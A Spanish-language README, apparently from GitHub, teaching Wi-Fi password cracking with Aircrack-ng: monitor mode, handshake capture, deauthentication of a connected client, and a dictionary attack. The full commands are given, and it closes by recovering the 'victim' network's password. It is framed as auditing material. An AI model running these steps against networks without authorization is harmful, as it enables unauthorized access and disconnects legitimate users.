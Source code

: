 # Guía de uso Aircrack-ng

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.

<br>

## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

<br>

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

<br>

![Informatica](Img/iwconfig.jpg)

<br>

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

<br>

![Informatica](Img/scan.jpg)

<br>

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado y el unico que tiene el EAPOL entonces seleccionaremos este dispositivo que será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```
<br>

![Informatica](Img/desconectar.jpg)

<br>

Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```
<br>

![Informatica](Img/contraseña.jpg)

<br>

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.